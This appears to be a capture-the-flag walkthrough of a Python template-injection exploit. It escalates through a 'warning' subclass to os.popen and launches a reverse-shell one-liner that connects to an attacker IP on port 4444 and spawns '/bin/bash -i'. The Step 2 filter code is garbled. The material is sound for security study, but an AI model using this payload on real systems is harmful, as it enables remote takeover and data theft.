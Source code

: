 **Step 2: Finding the Right Class**

```python

<div data-gb-custom-block data-tag="if" data-0='warning'></div>
```

* This **filters** for subclasses that contain `"warning"` in their name.
* The reason? There’s a sneaky way to **access Python’s built-in modules** through certain system warning classes.

**Step 3: Importing the OS Module & Running a Command**

```python
{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os; ...
```

* **`__import__('os')`** dynamically imports the **OS module**, which lets us interact with the system.
* **`popen()`** is used to execute a command, in this case, a **Python one-liner reverse shell**.

**Step 4: What’s Actually Running?**

```python
python3 -c 'import socket,subprocess,os; 
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); 
s.connect(("ip",4444)); 
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1); 
os.dup2(s.fileno(),2); 
p=subprocess.call(["/bin/cat", "flag.txt"]);
```

Here’s what this is doing **step-by-step**:

1. **Creates a TCP socket** (`socket.socket(socket.AF_INET,socket.SOCK_STREAM)`)
2. **Connects to the attacker's machine** on `IP: 4444`
   1. Be sure to change the IP to your connected IP!
3. **Redirects stdin, stdout, and stderr** to the socket (`os.dup2()`)
4. **Runs a command** (`subprocess.call(["/bin/cat", "flag.txt"])`)

***

#### **The Important Part We Care About**

The key part we need to **modify** is:

```python
subprocess.call(["/bin/cat", "flag.txt"]);
```

* This is just **reading** `flag.txt`.
* Instead, we want to **spawn an interactive shell**.

**Making It Interactive**

To actually **get a shell**, we replace `cat flag.txt` with `/bin/bash -i`, like so:

```python
subprocess.call(["/bin/bash", "-i"]);
```
